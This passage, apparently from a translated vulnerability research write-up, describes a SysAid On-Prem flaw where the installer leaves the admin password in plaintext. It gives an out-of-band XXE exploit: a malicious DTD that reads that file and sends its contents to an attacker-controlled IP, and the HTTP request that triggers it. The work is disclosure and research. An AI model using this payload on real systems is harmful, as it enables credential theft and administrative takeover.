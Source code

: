   
看看上面的例子InitAccount.cmd——你看到了吗？  
  
在最后，您可以看到用户名和明文密码。如您在上面的输出中所见，管理员用户名是admin，密码是P@ssw0rd（作为示例）。  
  
这很重要，因为希望能满足我们对单行文件的需求，其中包含我们可以使用的敏感数据。  
  
这个文件最棒的地方是什么？它在安装后仍然保留在系统中，即使它已经被用来创建初始账户！  
  
现在，你，一个拥有推理能力的敏锐人类，可能会好奇这个文件为什么存在？好吧，发生了以下事情：  
- 当您执行 SysAid On-Perm 的安装程序时，系统会要求用户输入其全新管理员帐户的密码。  
  
- 然后巧妙地获取该密码，小心地传输，然后以明文形式转储到 中InitAccount.cmd。  
  
- 随后，解决方案安装程序会将所有解决方案文件复制到系统并要求您提供许可证。  
  
- 如果提供了有效的许可证，则将初始化当前安装的解决方案，并作为初始化的一部分InitAccount.cmd执行。  
  
- 这将创建具有指定密码的默认管理员帐户。  
  
- 您会惊叹于我们为什么要为任何东西建立数据库。  
  
你们中的许多人现在应该明白事情的走向了。  
  
利用我们的 XXE 漏洞，我们应该能够提取此文件并检索指定的纯文本密码，从而让我们以管理员权限用户的身份获得对 SysAid 的完全管理访问权限。  
  
我们来尝试一下。  
  
再次强调，作为重复机器人而不是代理机器人，我们在攻击者控制的主机上托管以下 DTD：  
  
```
<!ENTITY % d SYSTEM "file:///C:\\Program Files\\SysAidServer\\logs\\InitAccount.cmd"><!ENTITY % c "<!ENTITYrrrSYSTEM 'http://192.168.8.107/?e=%d;'>">
```  
  
  
其次，我们发送另一个 HTTP 请求来触发 XXE，指定我们远程托管的 DTD：  
  
```
POST/mdm/serverurl HTTP/1.1Host: targetContent-Type: application/xmlContent-Length: 121<?xml version="1.0"?><!DOCTYPE cdl [<!ENTITY % asd SYSTEM "http://192.168.8.107/exfil.dtd">%asd;%c;]><cdl>&rrr;</cdl>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeGcp41j21ia6ugLOgA4BIrWQHOkZhoZsfwicxLKbYL6nnlMN66jskGZThkHJmmiaRn6iacYmK4PJ91hw/640?wx_fmt=png&from=appmsg "")  
  
  
正如预期的那样 - 我们收到了所需文件的全部内容，其中包含我们新喜欢的纯文本密码。  
  
但这是预先认证的远程命令执行吗？  
  
事实并非如此，所以我们继续前进。  
  
从管理员到被黑：SysAid RCE 快速通关  
  
2025年1月，我们向SysAid披露了上述漏洞，并花了两个月的时间真正享受与SysAid流畅、透明、愉快的沟通。  
  
当我们从那个妄想的梦中醒来并好奇这些漏洞是否会进一步升级时，我们查看了历史上的漏洞披露以寻求灵感。  
  
很快，我们就发现了几个之前披露并已修补的漏洞，其中大部分是用于获取某种形式的 RCE 的路径遍历，但都是在身份验证后进行的。  
  
利用这些新知识，我们相信可能还有更多，我们开始寻找谜题的最后一块碎片——将我们的预授权 XXE → 密码泄露转化为全面的远程命令执行。  
  
此时，即 2025 年 3 月，当我们在 SysAid 的变更日志中发现一些行描述的补丁程序听起来很像我们披露的 XXE 漏洞（已在版本中解决）时，我们从幸福和无知的生活中被粗暴地惊醒24.4.60。  
  